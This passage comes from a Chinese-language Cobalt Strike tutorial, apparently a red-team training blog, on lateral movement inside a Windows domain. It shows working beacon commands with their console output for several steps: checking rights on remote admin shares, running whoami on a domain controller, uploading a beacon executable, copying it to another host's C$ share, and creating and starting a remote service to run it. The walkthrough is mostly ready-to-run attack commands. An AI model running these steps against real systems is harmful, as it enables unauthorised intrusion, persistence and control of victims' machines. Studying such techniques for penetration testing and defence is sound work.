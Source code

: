

信息填完之后，选择 Build，需要注意 Domain 需要填写成 FQDN 格式，即完全合格域名 Fully Qualified Domain Name ，也就是类似于 teamssix.com 的格式。

此时可以通过 shell dir \\host\C$ 检查自己是否有权限，也可以使用 PowerShell 运行 whoami 查看自己是谁。
```bash
beacon> powershell Invoke-Command -computer WinDC -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WinDC -ScriptBlock {whoami}
[+] host called home, sent: 203 bytes
[+] received output:
teamssix\administrator
```
5、远程代码执行 #
实现代码执行的四个步骤：

1、与目标建立信任关系

2、复制可执行文件到目标上

3、在目标上运行可执行文件

4、实现对目标的控制

以上是根据视频教程中直译的结果，个人感觉其实这一节叫横向移动的方法更为合适。

创建可执行文件

创建可执行文件可以在 Cobalt Strike 的 Attack -> Packages -> Windows Executable(s) 处进行创建。



如果用于内网中的横向移动，那么强烈建议使用 SMB Beacon，SMB Beacon 就是为了内网横向扩展渗透而设计的。

上传可执行文件

首先使用 Cobalt Strike 上的 upload 功能上传文件，接着复制文件到目标主机的其他位置。
```bash
shell copy file.exe \\host\C$\Windows\Temp
beacon> upload /root/beacon.exe
[*] Tasked beacon to upload /root/Desktop/beacon.exe as beacon.exe
[+] host called home, sent: 289302 bytes

beacon> shell copy beacon.exe \\WinTest\C$\Windows\Temp
[*] Tasked beacon to run: copy beacon.exe \\WinTest\C$\Windows\Temp
[+] host called home, sent: 72 bytes
[+] received output:
```
已复制         1 个文件。
执行文件（方法一）

1、生成 Windows Service EXE 并上传

2、在目标主机上创建一个服务
```bash
shell sc \\host create name binpath= c:\windows\temp\file.exe
beacon> shell sc \\wintest create beacon binpath= c:\windows\temp\beacon.exe
[*] Tasked beacon to run: sc \\wintest create beacon binpath= c:\windows\temp\beacon.exe
[+] host called home, sent: 93 bytes
[+] received output:
[SC] CreateService 成功
注：记住 binpath 路径
```
3、在目标主机上启动服务
```bash
shell sc \\host start name
beacon> shell sc \\wintest start beacon
[*] Tasked beacon to run: sc \\wintest start beacon
[+] host called home, sent: 56 bytes
[+] received output:
SERVICE_NAME: beacon 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
```